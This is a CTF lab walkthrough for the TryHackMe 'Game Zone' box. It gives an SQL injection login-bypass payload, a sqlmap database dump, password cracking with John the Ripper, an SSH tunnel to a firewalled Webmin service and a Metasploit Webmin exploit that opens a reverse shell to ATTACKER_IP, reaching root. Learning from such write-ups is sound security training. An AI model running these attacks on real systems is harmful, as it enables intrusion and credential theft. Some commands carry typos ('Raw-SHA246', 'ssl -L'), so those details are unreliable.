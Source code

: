 # Game Zone
* Exploit SQLi manually and using SQLMap, crack users hashed password, us SSH tunnelling to reveal a hidden service, and use Metasploit payloads to gain root privileges.

## Obtain access via SQLi
* Taget host uses `SELECT * FROM users WHERE username = :username AND password := password` SQL query within login form.
* Manipulate query to login without legitimate credentials.
  * Username = ' or 1=1 -- -
  * Password = blank
* Changes SQL query to `SELECT * FROM users WHERE username =' or 1=1 -- - AND password := password`.
  * "1=1" = true.
  * "-- -" comments out remainder of query.
## Use SQLMap
* SQLMap is popular OSS for automatic SQL injection and database takeover tool.
* Pre-installed on Kali.
* Can be installed from [here](https://github.com/sqlmapproject/sqlmap).
### Use SQLMap to dump entire database
1. Intercept request to game review search feature using BurpSuite.
2. Save request into text file.
```
POST /portal.php HTTP/1.1
Host: 10.10.72.152
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.72.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.72.152/portal.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=9h551ujsnetbpkpeam2fsr2ki2
Connection: close

searchitem=test
```
* Pass request into SQLMap to use authenticated user session.
```
sqlmap -r request.txt --dbms=mysql --dump
```
  * `-r` uses intercepted request.
  * `--dbms` tells SQLMap the type of DBMS.
  * `--dump` attempts to output entire database.

## Crack Password with JohnTheRipper (JTR)
* JTR is fast OSS password cracker.
* Preinstalled on Kali.
* Takes wordlist, hashes it with specified algorithm, then compares it to hashed password.
* Hashes cannot be reversed.
* Can only be broken by hash comparison.
#### Use JTR to crach hash gained above
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA246
```
  * `hash.txt` contains list of hashes to crack.
  * `--wordlist` is list to use to find dehashed value.
  * `--format` is hashing algorithm to use.
## Expose Services with Reverse SSH Tunnels
* Reverse SSH port forwarding specifies that given port on remote host should be forwarded to local host and port.
![cYZsC8p](https://github.com/clydebuilt1974/TryHackMe/assets/157394432/46543e83-ed0e-421c-a78c-4e88f5a18315)
* `-L` is local tunnel.
  * Attacker <- target host.
  * Can forward traffic to another host and view it if site is blocked.
    * E.g. imgur blocked at work.
    * Browse to "localhost:9000" to load imgur traffic using remote server.
```
ssh -L 9000:imgur.com:80 user@example.com
``` 
* `-R` is remote tunnel.
  * Attacker -> target host.
  * Attacker forwards traffic to target host for others to view.
#### Use ss tool to investigate sockets running on host
```
ss -tulpn
```

| Argument | Description
| --- | ---
| `-t` | Display TCP sockets.
| `-u` | Display UDP sockets.
| `-l` | Display only listening sockets.
| `-p` | Show process using the socket.
| `-n` | Do not resolve service names.

* Service running on port 10000 blocked on attack host via firewall rule from outside.
* Use SSH tunnel on attack host to expose port via target host.
```
ssl -L 10000:localhost:10000 agent47@TARGET_IP
```
* Browse to http://localhost:10000 on attack host to access newly-exposed webserver.
## Privilege Escalation with Metasploit
* Use CMS dashboard version (webmin 1.5.80) to find Metasploit payload to execute against target host.
* [Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/21851) found on Exploit-db.
```
msfconsole
search webmin type:exploit
use exploit/unix/webapp/webmin_show_cgi_exec
set password videogamer124
set rhosts ATTACKER_IP
set username agent47
set ssl no
show payloads
set payload payload/cmd/unix/reverse
set lhost ATTACKER_IP
exploit
```
  * Set RHOSTS to Attack Host due to SSH tunnel created earlier.
  * Set SSL to be false as the SSL tunnel is not running over HTTPS.
```
[*] Exploiting target 0.0.0.1

[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[-] Authentication failed
[*] Exploiting target 127.0.0.1
[*] Started reverse TCP double handler on 10.10.174.232:4444 
[*] Attempting to login...
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[+] Payload executed successfully
[*] Command: echo cClA4EYV0eVm9IvA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "cClA4EYV0eVm9IvA\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (10.10.174.232:4444 -> 10.10.72.152:53206) at 2024-02-29 17:40:57 +0000
[*] Session 2 created in the background.
```
```
sessions 1
[*] Starting interaction with 1...

whoami
root
```
* Stabilise shell.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
* Find root flag.
```
cd /
find / -name "root.*" -user root 2>/dev/null
```
